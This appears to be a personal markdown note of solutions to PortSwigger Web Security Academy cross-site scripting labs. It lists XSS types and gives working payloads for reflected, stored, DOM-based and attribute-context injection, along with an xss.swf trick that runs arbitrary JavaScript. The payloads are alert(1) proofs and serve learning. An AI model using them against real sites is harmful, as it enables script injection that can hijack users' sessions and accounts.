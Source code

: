 # XSS is the most known client side vulnerbility
## Types OF XSS
- Reflected XSS
- DOM Based XSS
- Stored XSS 
- Blind XSS

## There are client side frameworks can trigger xss in different methods
- [XSS Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

## Reflected XSS into HTML context with nothing encoded
```bash
https://0a88007603bad0a4808b0d0000230035.web-security-academy.net/?search=%3Cimg%20src=c%20onerror=%22alert(1)%22%20/.
```

### Stored XSS into HTML context with nothing encoded
```bash
in comment
<svg><animate onbegin=alert(1) attributeName=x dur=1s>
```

### DOM XSS in document.write sink using source
```bash
Website writes the userinput inside an image tag so
'ls" onload="alert(1)"'
this is enough
```

### DOM XSS in innerHTML sink using source location.search
```bash
input was reflecting inside a span tag
lola"><img%20src=x%20onerror="alert(1)"/>
```

### DOM XSS in jQuery anchor href attribute sink using location.search source
```bash
There was a controlable url parameter return path when i click back button 
it redirected me to that path
?redirect=/shop
i changed it to ?redirect=javascript:alert(1);
and back button <a href="javascript:alert(1)">
```

### Reflected XSS into attribute with angle brackets HTML-encoded
```bash
Reflected Inside Input Value Tag
"onmouseover="alert(1)
Solved
```

### XSS via swf file upload
```bash

git url : https://github.com/evilcos/xss.swf
location to url: xss.swf?a=location&c=http://www.google.com/
open url to new window: xss.swf?a=open&c=http://www.google.com/
http request to url: xss.swf?a=get&c=http://www.google.com/
eval js codz: xss.swf?a=eval&c=alert(document.domain)
```
